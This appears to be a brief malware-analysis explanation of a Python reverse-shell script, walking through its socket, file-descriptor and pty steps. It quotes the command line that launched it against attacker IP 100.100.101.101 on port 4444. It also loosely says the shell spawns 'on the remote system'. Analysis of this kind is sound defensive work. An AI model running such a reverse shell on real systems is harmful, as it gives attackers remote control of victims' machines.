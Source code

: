 This malware sample is a `Python` script that is used to spawn a shell on a remote system. 
The script uses the `socket`, `os`, `argparse`, and `pty` modules.
* The `socket` module is used to create a socket object that is used to connect to the remote system.
* The `os` module is used to duplicate the file descriptors for stdin, stdout, and stderr to the socket file descriptor.
* The `argparse` module is used to parse the command line arguments.
* The `pty` module is used to spawn a shell on the remote system.

The script performs the following steps:
1. Initialize the parser object and parse the command line arguments.
2. Create a socket object using the specified socket family, type, protocol, and file descriptor.
3. Connect to the remote system using the specified IP address and port.
4. Duplicate the file descriptors for stdin, stdout, and stderr to the socket file descriptor.
5. Spawn a shell on the remote system.

Since the script was executed with the following command: `python3 example.py -l 100.100.101.101 -p 4444 &` we know the script was run in the background and attempted to connect to the attacker system with IP address `100.100.101.101` on port `4444`.
We also know that the script attempted to spawn a `/bin/bash` shell on the remote system since this is the default value for the `--shell` argument. 
